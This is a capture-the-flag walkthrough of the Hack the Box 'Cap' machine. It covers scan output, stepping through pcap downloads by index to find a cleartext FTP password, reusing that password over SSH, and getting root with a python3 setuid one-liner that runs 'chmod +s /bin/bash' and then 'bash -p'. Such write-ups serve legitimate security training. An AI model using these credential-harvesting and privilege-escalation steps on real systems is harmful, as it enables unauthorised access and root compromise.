 ```yaml
---
layout: default
title: Cap
parent: Hack the Box Labs
nav_order: 3
---
```

![Header](images/Cap.png)
<button type="button" name="button" class="btn">#pcap</button>
<button type="button" name="button" class="btn">#vsftpd</button>
<button type="button" name="button" class="btn">#LFI</button>
<button type="button" name="button" class="btn">#SUID</button>
# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.  
![1](Pasted image 20210606202210.png)  
![2](Pasted image 20210606202126.png)  
![3](Pasted image 20210605154704.png)
## Nmap Scan:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```

## GoBuster
```
└─$ cat gobuster.txt~
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.
![6](Pasted image 20210614213207.png)
I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:  
![4](Pasted image 20210614212825.png)  
![5](Pasted image 20210614212953.png)

Connect to SSH with the above credentials and grab the user flag.

### Privilege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt
